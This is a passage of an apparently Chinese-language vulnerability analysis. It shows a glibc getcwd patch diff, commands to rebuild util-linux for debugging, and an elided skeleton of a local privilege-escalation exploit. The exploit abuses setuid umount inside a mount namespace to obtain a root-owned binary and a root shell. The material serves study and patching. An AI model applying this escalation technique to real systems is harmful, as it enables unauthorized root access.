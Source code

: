 ```diff
     }
 
-  /* The system call cannot handle paths longer than a page.
-     Neither can the magic symlink in /proc/self.  Just use the
+  /* The system call either cannot handle paths longer than a page
+     or can succeed without returning an absolute path.  Just use the
      generic implementation right away.  */
-  if (errno == ENAMETOOLONG)
+  if (retval >= 0 || errno == ENAMETOOLONG)
     {
 #ifndef NO_ALLOCATION
       if (buf == NULL && size == 0)
```


## Exploit
umount 包含在 util-linux 中，为方便调试，我们重新编译安装一下：
```
$ sudo apt-get install dpkg-dev automake
$ sudo apt-get source util-linux
$ cd util-linux-2.27.1
$ ./configure
$ make && sudo make install
$ file /bin/umount 
/bin/umount: setuid ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=2104fb4e2c126b9ac812e611b291e034b3c361f2, not stripped
```

exp 主要分成两个部分：
```c
int main(int argc, char **argv) {
  [...]
  pid_t nsPid=prepareNamespacedProcess();
  while(excalateCurrentAttempt<escalateMaxAttempts) {
    [...]
    attemptEscalation();

    [...]
    if(statBuf.st_uid==0) {
      fprintf(stderr, "Executable now root-owned\n");
      goto escalateOk;
    }
  }

preReturnCleanup:
  [...]
  if(!exitStatus) {
    fprintf(stderr, "Cleanup completed, re-invoking binary\n");
    invokeShell("/proc/self/exe");
    exitStatus=1;
  }

escalateOk:
  exitStatus=0;
  goto preReturnCleanup;
}
```
- `prepareNamespacedProcess()`：准备一个运行在自己 mount namespace 的进程，并设置好适当的挂载结构。该进程允许程序在结束时可以清除它，从而删除 namespace。
- `attemptEscalation()`：调用 umount 来获得 root 权限。

